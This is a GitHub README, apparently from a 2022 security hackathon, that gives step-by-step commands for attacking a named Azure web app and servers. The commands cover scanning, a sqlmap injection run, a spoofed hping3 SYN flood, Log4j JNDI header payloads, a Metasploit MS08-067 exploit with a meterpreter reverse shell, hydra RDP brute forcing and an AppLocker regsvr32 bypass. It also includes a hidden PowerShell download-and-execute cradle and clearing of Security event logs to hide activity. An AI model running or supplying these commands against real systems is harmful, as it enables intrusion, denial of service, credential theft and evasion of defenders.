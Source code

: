 # WebSite Attack by AndreMurrel
Web site attack created by Andre Murrel for FTA hackaton Februare 2022

This is instructions on how to execute a website attack. It was created by Andre Murrel for a hackaton played by Rudnei, Andre, Simona, Ricardo, Andrej and Andrew.

### Information utilized

- Web app: https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
- App GW: 52.249.241.69

## Enumeration and Discovery
```
    Nmap -v -O -Pn 52.249.241.69 --traceroute 
    #silent scan of IP and 1000 ports if ICMP is blocked 
```
```
    nikto -h 52.249.241.69 
    //nikto -h https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
    //nikto -h https://owaspdirecprunoavl6xr2y.azurewebsites.net –ssl
```
## ATTACK Attempt at SQL Injection (this throws the kitchen sink at the Website) 
```
    sqlmap -u "https://owaspdirect-prunoavl6xr2y.azurewebsites.net" --data="id=1&str=val" -b 
```
![image](https://user-images.githubusercontent.com/97529152/161347761-6c4a72d3-8c94-4d97-8c78-761c182a9f74.png)

**NOTE:**  
This will NOT be successful but will send a lot of SQL injection and XSS traffic to the WebApp. This will identity that there are NO DBs behind the WebApp.

- Grab header and spoof useragent 
```
curl -I -X HEAD -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" http://52.249.241.69
```
![image](https://user-images.githubusercontent.com/97529152/161603891-81c59240-c355-4629-8799-1c42c6a3eb7d.png)

### Login Admin of app 
```
curl -u user:pass -o outfile https://owaspdirect-prunoavl6xr2y.azurewebsites.net/ 
curl -u user:pass -o outfile https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
```
 
### DoS attack 
```
hping3 52.249.241.69  --flood --frag --spoof 20.185.179.183 --destport 443 –syn 
```

![image](https://user-images.githubusercontent.com/97529152/161604741-1f755fd1-3780-406f-8b60-c190741ad160.png)

**NOTE:**
This will run without notifications to you so that you can continue to hack.  

### Capture session Tokens…works on live websites 
```
wget -q --save-cookies=cookie.txt --keep-session-cookies --post-data="username:admin&password=pass&Login=Login" https://owaspdirect-prunoavl6xr2y.azurewebsites.net/login.php 
```
 
**NOTE:**
This works to capture live sessions if the website is active 

### Output Website into HMTL for review and data grab 
```
curl https://owaspdirect-prunoavl6xr2y.azurewebsites.net/file[1-10].txt 
```
![image](https://user-images.githubusercontent.com/97529152/161605398-78fcd307-42c4-4d52-b970-9bf477e62bf7.png)

### Log4j Attempt 
```
curl 52.249.241.69:443 -H X-Api-Version:" ${jndi:ldap://52.249.241.69/a}"localhost:8080 
curl 52.249.241.69:80 -H X-Api-Version:" ${jndi:ldap://52.249.241.69/a}"localhost:8080 
```
 
### Metasploit SMB attack 
```
sudo msfdb init && msfconsole 
```
![image](https://user-images.githubusercontent.com/97529152/161608402-5e6ae3c2-b2c1-43b4-91fd-47c4b0166928.png)

then search ms08-067

![image](https://user-images.githubusercontent.com/97529152/161608672-45c06997-e740-45b5-bf15-0391b6e1ccee.png)

use exploit/windows/smb/ms08_067_netapi 
show options 

![image](https://user-images.githubusercontent.com/97529152/161608915-ac9cc02b-b8ef-4aa7-88cc-2fcecb7224e2.png)
```
set RHOST <Server IP> 
set LHOST 10.1.0.4 
set PAYLOAD windows/meterpreter/reverse_tcp 
set ENCODER x86/shikata_ga_nai
exploit
```

![image](https://user-images.githubusercontent.com/97529152/161609158-d23f30ca-ba25-421e-98fd-2b7dac49e667.png)

### Output Website information 
```
cutycapt --url=https://owaspdirect-prunoavl6xr2y.azurewebsites.net --out= azurewebsites.cer –insecure 
```

## Server Attack

GIVEN 
Server Info 
```
20.127.240.125 
20.127.240.160 
```
 
### BruteForce Servers 
```
cd /usr/share/wordlists 
gzip -d rockyou.txt.gz //if not already unzipped 
head -n 1000 rockyou.txt > user.txt 
head -n 1000 rockyou.txt > pass.txt 
```
![image](https://user-images.githubusercontent.com/97529152/161609807-7d75972d-7d9e-44d1-932c-a9d595313840.png)
```
nano rockyou.txt 
add: 
Rudnei 
Rudnei.com 
Hackathon 
hack 
Adminuser 
Testuser 
admin 
```
Ssave once complete

![image](https://user-images.githubusercontent.com/97529152/161610136-53e2d5b2-4e43-41e5-8974-1b6dba8fd31f.png)
```
hydra -I -L user.txt -P pass.txt <IP of the VictimPC> -t 4 rdp 
```
![image](https://user-images.githubusercontent.com/97529152/161610292-6654ed97-6013-4ee3-9e92-3a07878ee1cd.png)

**NOTE:**
This will take some time but it will start to output soon as it finds a viable user and/or password that can be triggered against a combination.  

### Download File Hash simulation 
```
Nslookup www.eicar.org 
(new-object system.net.weblcient).downloadfile(“http://www.eicar.org/download/eicar.com”, “desktop”) 
``` 

### Testing App Locker  
```
regsvr32.exe /s /u /i:test.sct Microsoft.Web.Deployment.Tracing.dll 
```
**NOTE:**
Run this on a Machine connected to Defender for Cloud through agent Services 
 

### Defender for Endpoint and Defender for Cloud remote Shell execution 
```
powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe' 
```

**NOTE:**
On the Windows machine connected to MDE and MDC run: 

 

### Clear Security Event Logs (Obfuscation techniques) 
```
Get-Eventlog -list 
Clear-Eventlog -logname Security -computername <Server Name> 
```

